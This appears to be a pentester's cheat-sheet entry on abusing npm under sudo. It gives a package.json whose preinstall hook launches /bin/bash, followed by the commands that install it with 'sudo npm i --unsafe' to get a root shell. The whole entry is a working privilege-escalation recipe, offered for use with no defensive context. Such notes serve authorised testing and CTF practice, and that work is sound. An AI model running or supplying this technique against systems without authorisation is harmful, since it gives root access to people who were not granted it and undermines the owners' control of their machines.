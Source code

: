 ```yaml
---
title: "npm"
date: 2024-6-26
tags: ["npm", "nodejs", "privesc", "sudo"]
---
```


---
#### SUDO

Create a 'package.json'

<div>

```json
{
  "name": "root",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

</div>

<br>

<div>

```bash
mkdir test
```

```bash
mv package.json test/
```

```bash
sudo npm i test/ --unsafe
```

</div>

<br>